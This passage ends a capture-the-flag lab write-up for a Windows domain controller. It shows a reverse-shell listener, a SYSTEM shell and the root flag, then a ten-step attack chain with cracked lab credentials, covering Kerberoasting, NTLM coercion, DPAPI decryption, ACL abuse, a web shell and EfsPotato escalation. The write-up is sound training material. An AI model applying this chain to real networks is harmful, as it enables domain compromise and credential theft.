➜ rlwrap -cAr ncat -lvp 9001
...[snip]...

PS C:\temp> whoami; hostname
nt authority\system
DC-CC

# Capture the root flag
PS C:\temp> type C:\Users\Administrator\Desktop\root.txt
FLAG[P0tatoTasT?g00D]
```

---

## Attack Chain Summary

| Step | Technique | Result |
|------|-----------|--------|
| 1 | **Binary Analysis** – Decompiled PyInstaller `.exe`, extracted hardcoded Base64 credentials | `svc_services_portal:PortAl1337` |
| 2 | **Kerberoasting** – Requested and cracked TGS ticket for `clerk.john` | `clerk.john:clerkhill` |
| 3 | **NTLM Coercion** – Uploaded malicious `.lnk` to writable `Uploads` share; cracked captured NTLMv2 hash | `jon.peters:1234heresjonny` |
| 4 | **Targeted Kerberoasting** – Enumerated additional SPN accounts and cracked `nina.soto` ticket | `nina.soto:123nina321` |
| 5 | **Backup Share Access** – `nina.soto` read `Backups` share; downloaded `clerk.john` profile backup (`.wim`) | Profile files including DPAPI blobs |
| 6 | **DPAPI Decryption** – Used `clerk.john` password to decrypt master key and Credential Manager blob | `emma.hayes:!Gemma4James!` |
| 7 | **ACL Abuse (GenericWrite)** – `emma.hayes` had GenericWrite on `CityOps` OU. Enabled `sam.brooks` and reset password | WinRM shell on DC as `sam.brooks` ⤏ User Flag  |
| 8 | **IIS Web Admin Pivot** – Moved `web_admin` to `CityOps`, reset password, used `RunasCs` for reverse shell | Shell as `web_admin` |
| 9 | **Web Shell Deployment** – Uploaded ASPX reverse shell to `C:\inetpub\wwwroot`; triggered via HTTP | Shell as `IIS APPPOOL\DefaultAppPool` |
| 10 | **Local Privilege Escalation** – `SeImpersonatePrivilege` exploited via **EfsPotato** | `NT AUTHORITY\SYSTEM` ⤏ Root Flag |
